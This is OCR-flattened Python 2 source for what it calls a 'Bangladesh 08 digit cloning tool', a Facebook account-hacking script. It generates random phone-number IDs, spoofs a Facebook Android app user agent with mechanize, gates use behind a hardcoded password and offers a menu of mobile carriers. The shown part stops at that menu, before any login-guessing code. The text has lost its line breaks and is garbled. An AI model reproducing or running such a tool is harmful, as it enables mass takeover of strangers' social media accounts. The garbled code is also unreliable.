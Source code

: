 # Mr. Fahim  # IT'S Fahim  import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass os.system('rm -rf .txt')   def psb(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.03)
psb('\x1b[1;32mBANGLADESH 08 DIGIT CLONING TOOL IS STARTING PLEASE WAIT ..........') for n in range(7777):     nmbr = random.randint(11111111, 99999999)     sys.stdout = open('.txt', 'a')     print nmbr     sys.stdout.flush()   try:     import requests except ImportError:     os.system('pip2 install requests')   try:     import mechanize except ImportError:     os.system('pip2 install mechanize')     time.sleep(1)   from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]   def exb():     print '[!] Exit'     os.sys.exit()     def psb(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.03)     def jalan(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(3.0 / 200)     def t():     time.sleep(1)     def cb():     os.system('clear')     logo = """                                                                                                                                                           ██╗░░░░░░█████╗░██╗░░░██╗███████╗ ██║░░░░░██╔══██╗██║░░░██║██╔════╝ ██║░░░░░██║░░██║╚██╗░██╔╝█████╗░░ ██║░░░░░██║░░██║░╚████╔╝░██╔══╝░░ ███████╗╚█████╔╝░░╚██╔╝░░███████╗ ╚══════╝░╚════╝░░░░╚═╝░░░╚══════╝  ██╗░░██╗░█████╗░██╗░░██╗███████╗██████╗░ ██║░░██║██╔══██╗██║░██╔╝██╔════╝██╔══██╗ ███████║███████║█████═╝░█████╗░░██║░░██║ ██╔══██║██╔══██║██╔═██╗░██╔══╝░░██║░░██║ ██║░░██║██║░░██║██║░╚██╗███████╗██████╔╝ ╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝╚═════╝░                                                """ back = 0 successful = [] cpb = [] oks = [] id = [] print 'AUTHOR : MR. FAHIM' print 'FACEBOOK :--''tarek.khan.125760'' print 'GITHUB : Hjkjgvvjjjg/402 CorrectUsername = 'Tamanna' CorrectPassword = 'my.love' loop = 'true' while loop == 'true':     username = raw_input('\x1b[1;91m \x1b[1;92mUSERNAME \x1b[1;92m: \x1b[1;92m')     if username == CorrectUsername:         password = raw_input('\x1b[1;91m \x1b[1;92mPASSWORD \x1b[1;92m: \x1b[1;92m')         if password == CorrectPassword:             print 'Logged in successfully as ' + username             time.sleep(2)             loop = 'false'         else:             print '\x1b[1;97mWrong Password'             os.system('xdg-open https://www.facebook.com/Abal.Not.Allow.ok.Bro')     else:         print '\x1b[1;97mWrong Username'         os.system('xdg-open https://www.facebook.com/Abal.Not.Allow.ok.Bro')   name = raw_input('\x1b[1;92m\x1b[1;92m Enter Your Name: ') os.system('xdg-open https://www.facebook.com/groups/mental.gang.ccc5.tor.real.bap/?ref=share')   def menu():     os.system('clear')     print logo     print '\x1b[1;91mONLY \x1b[1;91m08 \x1b[1;91m DIGITS HACKABLE ACCOUNTS ARE AVAILABLE'     print     jalan('\x1b[1;92m[1]  \x1b[1;92mGRAMEENPHONE')     jalan('\x1b[1;96m[2]  \x1b[1;96mROBI')     jalan('\x1b[1;92m[3]  \x1b[1;92mAIRTEL')     jalan('\x1b[1;96m[4]  \x1b[1;96mBANGLALINK')     jalan('\x1b[1;92m[5]  \x1b[1;92mTELETALK')     jalan('\x1b[1;96m[6]  \x1b[1;96mGRAMEENPHONE \x1b[1;91m(NEW)')     jalan('\x1b[1;92m[7]  \x1b[1;92mBANGLALINK \x1b[1;91m(NEW)')     print